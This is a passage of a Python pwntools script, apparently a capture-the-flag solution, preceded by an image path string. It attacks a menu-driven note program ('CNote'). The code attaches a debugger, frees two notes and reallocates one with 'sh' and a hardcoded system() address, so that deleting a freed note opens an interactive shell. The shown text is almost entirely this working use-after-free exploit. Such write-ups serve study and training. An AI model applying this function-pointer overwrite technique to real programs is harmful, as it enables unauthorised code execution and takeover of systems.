 ```python
	p.recvuntil('CNote')
	p.recvuntil(' > ')
	p.sendline('2')
	p.recvuntil(' > ')
	p.sendline(str(idx))

def show(idx):
	p.recvuntil('CNote')
	p.recvuntil(' > ')
	p.sendline('3')
	p.recvuntil(' > ')
	p.sendline(str(idx))


system = 0x8048500
gdb.attach(p,'b *0x08048934')
add('aaa',0,0xc)
add('aaa',1,0x10)
delete(0)
delete(1)
add('sh\x00\x00'+p32(system),2,0xc)
delete(0)

p.interactive()
```

